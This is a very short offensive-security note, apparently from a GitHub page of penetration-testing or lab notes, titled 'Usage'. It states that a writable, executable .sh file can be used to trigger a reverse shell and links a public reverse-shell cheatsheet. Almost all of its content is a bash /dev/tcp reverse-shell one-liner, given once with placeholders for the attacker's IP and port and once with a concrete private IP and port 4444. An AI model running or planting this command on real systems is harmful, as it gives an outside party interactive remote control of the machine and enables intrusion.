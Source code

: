 # Usage
A writable/executable .sh file can trigger reverse shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md  
  * Under Bash TCP  
      * bash -i >& /dev/tcp/\<Attacker IP>/\<port> 0>&1  
      * Example: * bash -i >& /dev/tcp/192.168.57.11/4444 0>&1